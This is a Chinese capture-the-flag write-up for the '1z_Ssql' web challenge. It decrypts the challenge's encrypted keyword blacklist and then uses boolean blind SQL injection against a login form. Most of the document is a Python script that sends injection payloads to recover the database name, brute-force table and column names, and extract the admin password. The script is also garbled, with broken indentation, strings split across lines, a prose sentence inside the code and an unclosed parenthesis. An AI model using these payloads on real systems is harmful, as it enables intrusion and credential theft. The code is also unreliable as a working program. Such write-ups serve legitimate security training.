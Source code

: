 ## 1z_Ssql

****

出题人：bthcls



![image-20240413222807851](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413222807851.png)

robots.txt有hint

![descript](C:/Users/26272/Pictures/media/5ac1580b858db1361623054e9f42a95b.png)

访问/here_is_a_sercet.php

![descript](C:/Users/26272/Pictures/media/f7c395f56f2be3e5d483cb88693fac77.png)

过滤的黑名单被加密了，在首页能看见加载了一个sm4.js，看得出来是一个解密脚本

![descript](C:/Users/26272/Pictures/media/9912cb05bdb5e55aa6f63b2adf1ce67a.png)

替换payload为加密的黑名单字符串，node decrypt.js运行解密脚本

![descript](C:/Users/26272/Pictures/media/38388172f2152f97c39663ae9e2d2e1e.png)

得到黑名单过滤的字符串

在登录框测试注入,输入union提示illegal words非法字符,根据过滤来绕过

![descript](C:/Users/26272/Pictures/media/d520521a77559b3bea45072c2835547d.png)

![descript](C:/Users/26272/Pictures/media/7e69a59fc06359fb03f0070112a2d392.png)

hint是假的，到这里可以判断是布尔盲注，根据过滤的字符串，数据库名和长度都可以直接跑，但是到表就 不行了，需要根据给的附件来爆破，下面是脚本

```python
import requests
import string
import time
url='http://192.168.31.60:8021'
i=0
db_name_len=0
print('[+]正在猜解数据库长度......')
while True:
	payload = "'or(length(database())<>{})#".format(i)
	params={
		"username":"{}".format(payload),
		"password":"1",
		"submit":"登录"
}
res=requests.post(url=url,data=params)
if '用户名或密码错误' in res.text:
	db_name_len=i
	print ('数据库长度为:'+str(db_name_len))
	break
if i==30:
	print('error!')
	break
i+=1
print("[+]正在猜解数据库名字......")
db_name=''
for i in range(1,db_name_len+1):
	for k in range(0,128):
		payload = "'or(ord(substr(reverse(substr(database() from {})) from {}))<>
{})#".format(i,7-i,k)
		params={
			"username":"{}".format(payload),
			"password":"1",
			"submit":"登录"
}
		res=requests.post(url=url,data=params)
		if '用户名或密码错误' in res.text:
			db_name+=chr(k)
			break
print("数据库为: %s"%db_name)
#爆破表名和字段名
print("[+]正在猜解数据表名字和字段名字......")
true_table_name=''
true_column_name=''
with open('table_name.txt','r',encoding='utf8') as f1:
	with open('cloumn_name.txt','r',encoding='utf8') as f2:
		for table_name in f1.readlines():
			table_name = table_name.strip()
			for column_name in f2.readlines():
				column_name = column_name.strip()
				payload = "'or(length((select(group_concat({}))from({}.
{})))>0)#".format(column_name,db_name,table_name)
				params={
				"username":"{}".format(payload),
				"password":"1",
				"submit":"登录"
}
				res=requests.post(url=url,data=params)
				if 'smart' in res.text:
					true_table_name = table_name
					true_column_name = column_name
					print("数据表和字段名为: {}和
{}".format(true_table_name,true_column_name))
				continue
i=0
column_len=0
print('[+]正在猜解字段长度......')
while True:
	payload = "'or(length((select(group_concat(password))from(bthcls.users)))<>
{})#".format(i)
	params={
		"username":"{}".format(payload),
		"password":"1",
		"submit":"登录"
}
	res=requests.post(url=url,data=params)
	if '用户名或密码错误' in res.text:
		column_len=i
		print ('字段长度为:'+str(column_len))
		break
	if i==30:
		print('error!')
		break
i+=1
print("[+]正在猜字段值......")
column_value=''
for i in range(1,column_len+1):
	for k in range(0,128):
	payload =
"'or(ord(substr(reverse(substr((select(group_concat(password))from(bthcls.users))fro
m({})))from({})))<>{})#".format(i,column_len+1-i,k)
	params={
		"username":"{}".format(payload),
		"password":"1",
		"submit":"登录"
}
	res=requests.post(url=url,data=params)
	if '用户名或密码错误' in res.text:
		column_value+=chr(k)
		break
得到登录密码，登录得到flag，用户名当然是admin啦
print("数据库为: %s"%column_value
```

![descript](C:/Users/26272/Pictures/media/53de9e07238ed8e2587894de6918b55f.png)

![image-20231207232346114](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20231207232346114.png)

得到登录密码，登录得到flag，用户名当然是admin啦

![descript](C:/Users/26272/Pictures/media/3726211f3f1080f1c288c45e2aad6763.png)



